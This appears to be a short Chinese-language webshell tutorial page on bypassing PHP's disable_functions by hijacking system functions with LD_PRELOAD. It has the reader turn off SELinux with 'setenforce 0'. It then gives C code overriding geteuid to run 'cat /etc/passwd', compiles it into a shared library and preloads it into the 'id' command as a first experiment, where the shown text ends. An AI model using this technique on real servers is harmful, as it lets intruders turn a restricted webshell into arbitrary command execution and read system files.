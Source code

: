 
**利用环境变量 LD_PRELOAD 来绕过**

前提：
linux环境中，putenv()、mail()函数可用。

记得先关闭安全模式
`setenforce 0`

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

我们先做个小实验看看 LD_PRELOAD 能否直接使用

touch test.c
```c
#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```
生成动态链接库

`gcc --share -fPIC test.c -o test.so`

使用 LD_PRELOAD 加载刚生成的 test.so，再执行 id 命令看看效果

`LD_PRELOAD=./test.so id`

![](img/2.png)
